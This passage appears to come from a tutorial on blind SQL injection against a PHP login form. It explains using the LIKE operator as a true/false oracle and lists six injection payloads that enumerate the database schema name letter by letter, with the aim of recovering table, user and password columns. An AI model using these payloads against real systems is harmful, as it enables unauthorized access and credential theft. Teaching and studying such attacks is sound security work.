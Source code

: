 ```php

?>

//What we want need to find out:
//'DB_NAME': The database name.
//'table': The table name.
//'usercolumn': The first column's name.
//'passcolumn': The second column's name.
//Additional columns or tables on the server.
```

There is a lot of stuff that can be found. But how can they be found? The code we have constructed only shows to possibilities. The login either fails or succeeds. Believe it or not, a true or false is all we need to find out all the data we need. Brute-forcing by pure combination is one possibility. Another type of brute-forcing that saves much more time (maybe a few trillion years?) can be performed with the assistance of the LIKE operator. Let's first look at the power of LIKE.

```sql
# 1)A 'Password' value with the letter b in it
... Password LIKE '%b%'

# 2)A 'Password' value where the first letter is b
... Password LIKE 'b%'

# 3)A 'Password' value where the second letter is b
... Password LIKE '_b%'

# 4)A 'Password' value where the last letter is b
... Password LIKE '%b'

# 5)A 'Password' value where the second to last letter is b
... Password LIKE '%b_'
```

We can now use this magical operator to ask the server yes or no questions and find out all the information we need. We can input anything into the username that doesn't mess with the query. I'll be using 'bar' without quotes. The following password queries were sent. The results are shown them.

```sql
# Query 1
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 's%' AND TABLE_SCHEMA != 'information_schema') #
```
```sql
# Query 2
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 't%' AND TABLE_SCHEMA != 'information_schema') #
```
```sql
# Query 3
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'u%' AND TABLE_SCHEMA != 'information_schema') #
```
```sql
# Query 4
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tt%' AND TABLE_SCHEMA != 'information_schema') #
```
```sql
# Query 5
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tz%' AND TABLE_SCHEMA != 'information_schema') #
```
```sql
# Query 6
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tu%' AND TABLE_SCHEMA != 'information_schema') #
```